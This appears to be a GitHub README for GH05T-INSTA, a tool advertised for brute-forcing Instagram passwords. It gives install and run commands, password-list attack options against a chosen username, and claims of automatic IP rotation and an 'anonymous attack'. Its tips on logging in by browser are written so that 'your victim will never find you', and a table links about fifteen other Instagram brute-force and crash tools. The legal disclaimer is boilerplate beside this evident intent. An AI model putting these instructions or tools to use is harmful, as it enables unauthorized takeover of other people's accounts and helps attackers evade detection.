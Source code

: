 <img src="https://media.tenor.com/qMER41oNWx8AAAAC/youve-been-hacked-gregory-brown.gif">

## Installation {Kali}
### BruteForce (GH05T-INSTA)

```
sudo -i
```

```
apt install git
```

```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```

```
cd GH05T-INSTA
```

```
bash install.sh
```

```
gh05t
```

<i>It is a complete toolkit for beginners and easy to learn and use tool without additional pro hacking knowledge.</i>

<b>Main Menu </b>`Fork it...`
<img src="https://f.top4top.io/p_2591gdccl0.jpg">

### Tool Installation
#### BruteForce Tools Installation 
```
apt install git
```

```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```

```
cd GH05T-INSTA
```

```
chmod +x *
```

```
./venom.sh
```

`Choose : (01) Tool Installation`

### Run Tool

```
apt install git
```

```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```

```
cd GH05T-INSTA
```

```
chmod +x *
```

```
./setup.sh
```

```
./import.sh
```

```
pip install -r requirements.txt
```

```
./venom.sh
```

`Choose : (02) Run Tool`

<img src="https://j.top4top.io/p_2590zeytt0.jpg" alt="GH05T-HUNTER5">

<!--
`Dear friends, this tool works but to install some basic packages Can't For example, pip will not work on Termex`

```
Don't worry, this problem is temporary
```

<img src="https://a.top4top.io/p_258969ou50.jpg">

{MORE LINKS}

## Notice

<b><i>Please do not clone or download this tool because we are trying to fix the problems and we don't know how many possibilities there are to solve these problems.</i><b>

<img src="https://i.top4top.io/p_2534rdbvk0.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA"><br>
<b>The best way to hack Instagram</b>

<b>The best way report Instagram</b>

## Installation 7.01 <p id="install"></p>

```
apt install git
```
```
apt install python
```
```
apt install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
chmod +x *
```
```
./install.sh
```

<b>or</b>

```
python install.py
```

<b>Start</b>

```
gh05t
```

```
 Run Tor
```


## Linux Installation 3.01 

`Install Home` 

`$ cd home/`

<b>This is just a test, please send your valuable feedback {Linux}</b>

```
chmod +x *
```
```
./setup-linux.sh
```
```
./gh05t --help
```

<b>or</b>

```
./gh05t
```

<b>Linux Command : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.linux/README.md">Click This</a></b>

<b>Report : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/issues/new?assignees=&labels=&template=bug_report.md&title=">Issues</a></b>

## Termux Installation 3.01 

```
pkg update && pkg upgrade
```
```
pkg install tor -y
```
```
pkg update tor -y 
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
python install.py
```
```
cd 
```
```
rm -rf GH05T-INSTA
```

* You can use two ways 🤺

01 ) Command Based ⬇️

## Usage Commands 

<b>AUTO ATTACK </b>

```
$ gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ gh05t --user your-account-username --pass your-password-option 
$ gh05t --user mr_77778#8 --pass 2 
$ gh05t --user mr_fqake#@ --pass 3 
$ gh05t --user jdjza888#8 --pass 4 
$ gh05t --user gersman_9#6# --pass 6 
$ gh05t --user mr_77bd778#8 --pass 7 
$ gh05t --user ar_fake#@ --pass 8 
$ gh05t --user li888#8 --pass 9 
$ gh05t --user mtrman_9#6# --pass 10 
$ gh05t --user jr_77778#8 --pass 11 
$ gh05t --user ig_fake#@ --pass 12 
$ gh05t --user hsjza888#8 --pass 13 
$ gh05t --user gelian_9#6# --pass 14 
$ gh05t --user gehsghan_9#6# --pass 15 
$ gh05t --user jr7778#s8 --pass 16 
$ gh05t --user igahacke#@ --pass 17 
$ gh05t --user hsjd888#8 --pass 18 
$ gh05t --user gehdhan_9#6# --pass 19 
$ gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

```
$ gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ gh05t --user username --passadd pwdlocation-and-name
$ gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ gh05t developer 
```

* To contact the developers


<b>Uninstall GH05T-INSTA </b>

```
$ gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ gh05t 
```

## Menu

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA">

### Password List {Auto Attack}

<img src="https://k.top4top.io/p_25343fuqr2.jpg" alt="GH05T INSTA PASSWORD LIST" >

<b> Create your own password list : <a href="https://github.com/GH05T-HUNTER5/mypass-hunter5">random passwords</a></b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

## This Tool is not working properly Please wait we are trying to solve this problem 

<img src="https://user-images.githubusercontent.com/123439847/214219519-bea6426e-866f-42a9-8850-e8ab340020cc.png">

<b> Command : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.gh05t/README.md">Link</a></b>

### Notice

`Dear friends, this tool works but to install some basic packages Can't For example, pip will not work on Termex`

```
Don't worry, this problem is temporary
```

```bash
read -p 'Enter your name : ' user
gh05t --user $user --pass 18
```
### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

### Banner

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA"><br>

```
     ██████╗ ██╗  ██╗ ██████╗ ███████╗████████╗  
    ██╔════╝ ██║  ██║██╔═████╗██╔════╝╚══██╔══╝ 
    ██║  ███╗███████║██║██╔██║███████╗   ██║     
    ██║   ██║██╔══██║████╔╝██║╚════██║   ██║     
    ╚██████╔╝██║  ██║╚██████╔╝███████║   ██║     
     ╚═════╝ ╚═╝  ╚═╝ ╚═════╝ ╚══════╝   ╚═╝      
       ██╗███╗   ██╗███████╗████████╗ █████╗     
       ██║████╗  ██║██╔════╝╚══██╔══╝██╔══██╗    
       ██║██╔██╗ ██║███████╗   ██║   ███████║    
       ██║██║╚██╗██║╚════██║   ██║   ██╔══██║    
       ██║██║ ╚████║███████║   ██║   ██║  ██║    
       ╚═╝╚═╝  ╚═══╝╚══════╝   ╚═╝   ╚═╝  ╚═╝    


  ```


### INSTAGRAM BRUTEFORCE

##### Link ( 1 ) : https://github.com/MR-S74RK/ZHOI-INSTA

##### Link ( 2 ) : https://github.com/dark-player/instabrute.github.io

##### Link ( 3 ) : https://github.com/hackerxphantom/xinsta_brute

##### Link ( 4 ) : https://github.com/SamueleAmato/instaForce

##### Link ( 5 ) : https://github.com/eternalodball/insbrute

##### Link ( 6 ) : https://github.com/Bitwise-01/Instagram-

##### Link ( 7 ) : https://github.com/chinoogawa/instaBrute

##### Link ( 8 ) : https://github.com/importCTF/Instagram-Hacker

##### Link ( 9 ) : https://github.com/xHak9x/instabrute

##### Link ( 10 ) : https://github.com/TermuxHackz/instagram-bruteforcer



<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>
-->

### INSTA BRUTEFORCE TOOLS

#### beginner-friendly 

<b>Add New Tool <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/edit/main/README.md">Link</a></b>
<table>
  <tr>
    <th>No#</th>
    <th>Tool Name</th>
    <th>Tool Link</th>
    <th>System</th>
    <th>Command</th>
  </tr>
  <tr>
   <td>01</td>
    <td>ZHOI-INSTA</td>
    <td><a href="https://github.com/MR-S74RK/ZHOI-INSTA">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/ZHOI-INSTA.md">INSTALLATION</a></td>
  </tr>
  <tr>
<td>02</td>
    <td>instagram-crash</td>
    <td><a href="https://github.com/kucing-hitam/instagram-crash">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instagram-crash.md">INSTALLATION</a></td>
  </tr>
  <tr>
<td>03</td>
   <td>Brutegram</td>
    <td><a href="https://github.com/Err0r-ICA/Brutegram">Link</a></td>
     <td>Termux</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/Brutegram.md">INSTALLATION</a></td>
  </tr>
<tr>
<td>04</td>
   <td>instashell</td>
    <td><a href="https://github.com/tiptoettt/instashell">Link</a></td>
    <td>Kali User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instashell.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>05</td>
   <td>insta-hack</td>
    <td><a href="https://github.com/IncredibleHacker/insta-hack">Link</a></td>
    <td>All</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/insta-hack.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>06</td>
   <td>instainsane</td>
    <td><a href="https://github.com/umeshshinde19/instainsane">Link</a></td>
    <td>Kali User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instainsane.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>07</td>
   <td>xinsta_brute</td>
    <td><a href="https://github.com/hackerxphantom/xinsta_brute">Link</a></td>
    <td>Termux User</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/xinsta_brute.md">INSTALLATION</a></td>
 </tr>
<tr>
<td>08</td>
   <td>SocialMediaHackingToolkit</td>
    <td><a href="https://github.com/RedKatz/SocialMediaHackingToolkit">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/SocialMediaHackingToolkit.md">INSTALLATION</a></td>
  </tr>
<tr>
<td>09</td>
   <td>insbrute</td>
    <td><a href="https://github.com/eternalodball/insbrute">Link</a></td>
    <td>Kali User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/insbrute.md">INSTALLATION</a></td>
  </tr>
<tr>
<td>10</td>
   <td>Instagram-</td>
    <td><a href="https://github.com/Bitwise-01/Instagram-">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/Instagram-.md">INSTALLATION</a></td>
  </tr>
<tr>
<td>11</td>
   <td>instaBrute</td>
    <td><a href="https://github.com/chinoogawa/instaBrute">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instaBrute.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>12</td>
   <td>Instagram-Hacker</td>
    <td><a href="https://github.com/importCTF/Instagram-Hacker">Link</a></td>
     <td>Kali User</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/Instagram-Hacker.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>13</td>
   <td>instabrute</td>
    <td><a href="https://github.com/xHak9x/instabrute">Link</a></td>
   <td>Termux User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instabrute.md">INSTALLATION</a></td>
<tr>
<td>14</td>
   <td>instagram-bruteforcer</td>
    <td><a href="https://github.com/TermuxHackz/instagram-bruteforcer">Link</a></td>
     <td>All</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instagram-bruteforcer.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>15</td>
   <td>ighack</td>
    <td><a href="https://github.com/noob-hackers/ighack">Link</a></td>
     <td>Termux User</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/ighack.md">INSTALLATION</a></td>
  </tr>
<tr>
</table>

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<pre>These hackers from India, Pakistan, Bangladesh, Germany and Russian created this tool , thanks to these hackers</pre>
